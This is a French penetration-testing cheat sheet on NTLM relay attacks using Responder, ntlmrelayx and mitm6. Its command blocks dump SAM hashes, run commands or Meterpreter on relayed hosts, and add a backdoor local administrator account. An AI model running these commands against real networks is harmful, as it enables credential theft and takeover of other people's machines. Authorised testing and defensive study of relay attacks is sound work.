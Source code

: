 ```yaml
---
description: A finir
---
```


# NTLM Relay

Prendre la dernière version de Responder ([https://github.com/lgandx/Responder](https://github.com/lgandx/Responder))

### Ecoute passive

```
sudo python3 responder -I eth0
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.

### Relayer

Pour pouvoir relayer, il faut que les services SMB et HTTP de Responder soit stoppés (fichier de configuration Responder.conf). Ceci permet le bon fonctionnement de `ntlmrelayx`.

_**Note :** les deux scripts doivent être exécutés dans le même contexte, pas dans 2 conteneurs Docker différents._

```
# Terminal 1 (dans le docker impacket)
Dumper la base SAM : ntlmrelayx -tf <TARGETS.txt>
Exécuter une commande : ntlmrelayx -tf <TARGETS.txt> -c <COMMANDE ou METERPRETER>

# Terminal 2
sudo python3 responder -I eth0 -d -w # Les hashs sont visibles dans Responder/logs/Responder-Session.log
```

#### TIPS

* `-smb2support` : Option qui permet de supporter le protocole SMBv2
* `-i` : Option pour exécuter des commandes de manière interactive
* `-c "net user user pass /add && net localgroup Administrators user /add"` : Ajoute un administrateur local

Le fichier `TARGETS.txt` contient les IP des machines dont la signature SMB n'est pas activée. Cette liste de machine peut être récupérée avec la commande suivante :&#x20;

```
cme smb <IP>/<MASK> --gen-relay-list <TARGETS.txt>
```

### IPv6

Prendre la dernière version de `mitm6` ([https://github.com/dirkjanm/mitm6](https://github.com/dirkjanm/mitm6)). Après l'installation, en cas d'erreur `matplotlib`, exécuter la commande suivante :&#x20;

```
sudo pip install --upgrade matplotlib
```

Pour relayer les commandes sont les suivantes :&#x20;

```
# Terminal 1 (dans le docker impacket)
ntlmrelayx.py -6 -tf <TARGETS.txt>

# Terminal 2 
sudo mitm6 -d <DOMAIN.LOCAL>
```
